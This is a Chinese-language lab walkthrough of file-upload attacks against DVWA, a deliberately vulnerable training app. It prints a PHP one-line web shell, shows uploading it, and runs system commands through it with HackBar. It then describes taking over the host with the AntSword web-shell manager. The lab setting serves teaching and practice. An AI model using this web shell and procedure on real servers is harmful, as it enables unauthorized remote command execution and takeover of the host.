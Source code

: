 ```php
<?php @eval($_POST['hello']); ?>
```

### 3.1.3 上传文件

```php
http://10.102.224.206:9093/vulnerabilities/upload/
```

### 3.1.4 访问上传的木马

```php
1.访问
http://10.102.224.206:9093/hackable/uploads/file_upload.php

2.f12 打开firefox的控制台，找到HackbarV2的界面

3.load URL

4.勾选post data

5.在输入框中输入内容(hello是因为上传的一句话木马中，预留参数是hello),其余的是要执行的命令。
hello=phpinfo();
hello=system('whoami');
hello=system('pwd');
```

### 3.1.5 使用中国蚁剑访问

```python
1.添加数据，URL地址填写木马文件地址
http://10.102.224.206:9093/hackable/uploads/file_upload.php

2.连接密码：
就是木马文件中的预留变量字符串，此处是 hello

3.测试连接：
看到连接成功界面即可。

4.点击添加即可。

5.双击添加的记录行，即可看到我们已经接管了目标主机的磁盘。
或者，在记录上--》右键--》新建虚拟终端，即可看到命令行。
```

## 3.2 测试2 (用chrome浏览器打开)

### 3.2.1 将 DVWA Security 的 Security Level 置为 medium

```php
此时如果上传upload_file.php 将会有如下提示：
Your image was not uploaded. We can only accept JPEG or PNG images.

观察源码可知，后台校验了文件类型必须是：image/jpeg或者image/png
```
